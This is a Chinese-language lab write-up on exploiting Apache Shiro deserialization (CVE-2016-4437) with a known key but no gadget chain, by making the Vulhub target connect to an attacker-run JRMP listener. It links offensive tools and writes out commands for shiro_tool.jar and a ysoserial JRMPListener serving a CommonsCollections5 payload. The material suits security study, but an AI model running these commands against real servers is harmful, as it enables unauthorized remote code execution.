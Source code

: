 # Shiro反序列化之有Key无链

**攻击者掌握了 Shiro 的加密密钥（key），但缺乏有效的利用链（Gadget Chain）** 来完成完整的攻击

参考文章

> https://mp.weixin.qq.com/s/MdCUfyaUCAa2M3P3H1NsGw

工具

> https://github.com/altEr1125/ShiroAttack2
>
> https://github.com/SummerSec/ShiroAttack2
>
> https://github.com/wyzxxz/shiro_rce_tool

## JRMP(Java远程方法协议)

###  JRMP介绍

JRMP指的是Java远程方法协议（Java Remote Method Protocol）。它是 Java 对象实现远程通信的基础技术，也是Java RMI（Remote Method Invocation，远程方法调用）的底层通信协议。借助JRMP，运行于某个Java虚拟机（JVM）中的对象能够调用另一个JVM中对象的方法，就如同调用本地对象的方法一样便捷。

### 有Key无链介绍

在shiro反序列化漏洞有key无链中的应用

> 在标准的反序列化利用中，我们的目标是直接在目标服务器上执行命令（如 `Runtime.exec("calc")`）。这需要一条完整的 **Gadget Chain**。
>
> 而在 **“有key无链”** 场景下，这个目标无法直接实现。JRMP 利用方式将目标转变为：
>
> **不追求在目标服务器上直接执行代码，而是让目标服务器作为一个 JRMP 客户端，向一个由攻击者控制的恶意 JRMP 服务端发起连接，并执行服务端返回的恶意对象。**
>
> 这个过程的本质是 **利用 RMI 的动态类加载机制**。

攻击架构图

![image-20250930220801213](./images/Shiro反序列化之有Key无链/image-20250930220801213.png)

### JRMPClient链攻击演示

#### 原理

- **A (靶场)**: 一台云主机（如阿里云/腾讯云ECS），运行Vulhub的Shiro漏洞环境。假设其公网IP为 `123.123.123.123`，开放端口 `8080`。
- **B (攻击机)**: 攻击者控制的另一台**具有公网IP的云主机**。这是整个攻击的核心。假设其公网IP为 `45.45.45.45`。它需要运行 `JRMPListener`并暴露端口。
- **C (本地电脑)**: 攻击者自己的笔记本电脑（如家里的Kali虚拟机），通常处于内网，没有固定的公网IP。运行shiro_rce_tool工具

**网络流向关键**：由于A和B都是云主机，有公网IP，它们之间可以**直接互通**。而C（你的电脑）只能主动连接A和B，但A和B无法主动连接回C（除非做内网穿透）。因此，所有需要**靶场A主动发起的连接**，都必须指向**攻击机B的公网IP**。

攻击链

![image-20250930224750130](./images/Shiro反序列化之有Key无链/image-20250930224750130.png)

#### 演示

启动`/vulhub/shiro/CVE-2016-4437`靶场

下载`https://github.com/wyzxxz/shiro_rce_tool`攻击

直接工具梭哈

`java -jar shiro_tool.jar http:/靶场IP:8080/login`

工具扫到

![image-20250930222639183](./images/Shiro反序列化之有Key无链/image-20250930222639183.png)

如图几条链,前面几条连通过上面链接另外两款工具也可以实现,此处选择4模拟`JRMPClient`来了解JRMP的利用. 方便后面学习有key无链

在另一台主机启通过`ysoserial`工具启动JRMP监听,

> java -cp ysoserial-0.0.8-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 6789 CommonsCollections5 "ping 域名"

启动服务后记得开放端口让靶场的主机能够访问

然后在`shiro_rce_tool`工具中

![image-20250930224241524](./images/Shiro反序列化之有Key无链/image-20250930224241524.png)

箭头位置填入ysoserial工具运行JRMP监听的主机ip:port. 

然后就可以查看dnslog

![image-20250930224411207](./images/Shiro反序列化之有Key无链/image-20250930224411207.png)

成功看到请求.

查看监听

![image-20250930224501549](./images/Shiro反序列化之有Key无链/image-20250930224501549.png)

可以看到确实有请求.

 也可以使用之前的`java-chains`工具来启动JRMP监听.

![image-20250930230622317](./images/Shiro反序列化之有Key无链/image-20250930230622317.png)

![image-20250930230720999](./images/Shiro反序列化之有Key无链/image-20250930230720999.png)

然后在`shiro_rce_tool`工具中写入ip和端口.有同样效果











